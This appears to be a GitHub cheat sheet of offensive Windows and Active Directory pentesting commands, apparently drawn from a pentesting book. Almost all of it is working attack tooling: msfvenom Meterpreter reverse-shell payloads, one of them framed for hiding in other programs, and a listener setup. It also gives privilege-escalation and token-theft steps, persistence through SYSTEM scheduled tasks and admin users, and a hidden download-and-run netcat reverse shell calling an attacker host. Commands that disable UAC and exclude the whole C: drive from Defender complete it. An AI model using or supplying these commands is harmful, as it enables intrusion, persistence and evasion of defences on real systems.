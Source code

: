 VBA MSF:

    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=7777 -f vba-exe
    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=7777 -f vba-psh

Generate payload:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.x.x LPORT=7777 -e x86/shikata_ga_nai -f exe > payload.exe

Use listener:

    msfconsole -q -x "set payload windows/meterpreter/reverse_tcp;use exploit/multi/handler;set LHOST 192.168.x.x;set LPORT 7777;set ExitOnSession false;exploit -j;"

Inteactions with sessions:

    session -i 1  (means interact with session 1)
    shell (Launches cmd on victim machine)
    bg (backgrounding current meterpreter session)

PrivEsc Tool:

    run post/multi/recon/local_exploit_suggester
    set SESSIOS 1
    load incognito
    list tokens -u 

Stealthy Operations:

    migrate -N explorer.exe
    run post/windows/manage/migrate

VBA PowerShell Dropper
VBA Powercat

adding user to administrator group:
    
    cmd.exe /k net localgroup admin user /add

restarting service:
    
    sc stop svcname & sc start svcname

command for compile on kali linux:

    x86_64-w64-mingw32-gcc tvoycode.c -shared -o tvoydllfile.dll

create scheduled task with cmd
    
    schtasks /create /tn "SecurityStartup" /tr "C:\pathtoprogram.exe" /sc ONSTART /ru SYSTEM /rl HIGHEST /f

create a meterpreter shellcode for single line good for hide in the another program

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<TVOY_IP> LPORT=<TVOY_PORT> -f c | tr -d '\n' | sed 's/ //g'

runas.exe

    net users
    runas /user:usernameofvictim "cmd.exe"
    runas /user:Machinename\usernameofvictim "cmd.exe"

Powershell history file in environment

    cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

drop nc.exe (Netcat) Attacker machine and executes as a background command:

    powershell -Command "$out = Join-Path $env:Temp 'nc.exe'; Invoke-WebRequest -Uri 'http://192.168.x.x/nc.exe' -OutFile $out; Start-Process $out -ArgumentList '192.168.y.y 77777 -e powershell' -WindowStyle Hidden"

disable UAC with PowerShell command 

    Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0


DisableUAC.reg

        Windows Registry Editor Version 5.00

        [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System]
        "ConsentPromptBehaviorAdmin"=dword:00000000

ExclusionPath.bat

    powershell.exe -command "Add-MpPreference -ExclusionPath C:\"


### Based on "Isakov D Pentesting Active Directory and Windows based Infrastructure.pdf" 
